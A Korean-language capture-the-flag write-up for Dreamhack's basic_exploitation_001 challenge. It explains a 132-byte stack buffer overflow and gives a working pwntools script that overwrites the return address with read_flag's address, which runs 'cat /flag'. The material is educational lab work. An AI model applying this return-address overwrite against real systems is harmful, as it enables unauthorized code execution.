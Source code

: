 # basic_exploitation_001

주어진 소스코드를 보면 read_flag 함수에서 flag를 얻을 수 있다는 것을 알 수 있다.
```
void read_flag() {
    system("cat /flag");
}
```   


gdb로 확인해보면 read_flag 함수는 x080485b9에 위치하고 있다.   



main 함수를 보면 버퍼는 0x80바이트 이다.   
<br/>

따라서 0x80(128) + sfp(4) 즉, 132바이트를 아무 문자로 채우고 read_flag 함수 주소로 ret address를 채우면 된다.

```
from pwn import *

r = remote('host1.dreamhack.games', 17724)

payload = ""
payload += "\x90"*132
payload += p32(0x80485b9)

r.sendline(payload)
r.interactive()
```
